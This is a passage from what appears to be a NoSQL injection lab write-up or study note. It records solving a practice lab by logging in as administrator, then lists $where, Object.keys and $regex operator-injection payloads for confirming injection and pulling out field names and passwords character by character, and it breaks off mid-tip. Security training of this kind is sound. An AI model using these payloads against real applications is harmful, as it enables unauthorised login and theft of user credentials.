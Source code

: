 	```
	ppycphbs
	```
	
	That worked to log in as the administrator, and we solved the lab
	
	![](../../../../assets/screenshots/nosql/Pasted%20image%2020250727105503.png)

### Advanced Operator Injection

#### Using `$where` to Confirm Injection

```json
{"username":"wiener","password":"peter", "$where":"0"}
```

```json
{"username":"wiener","password":"peter", "$where":"1"}
```

If there's a difference, it could mean the JavaScript in the `$where` clause is being evaluated.

#### Extracting Field Names with `keys()`

```json
{"$where":"Object.keys(this)[0].match('^.{0}a.*')"}
```

#### Data Exfiltration with Operators

```json
{"username":"admin","password":{"$regex":"^.*"}}
```

!!! tip "Confirming injection with $regex"
    If the response to this request is different to the one you receive when you submit an incorrect password, this indicates that the application may be vulnerable. You can use the `$regex` operator to extract data character by character. For example, the following payload checks whether the password begins with an `a`:
    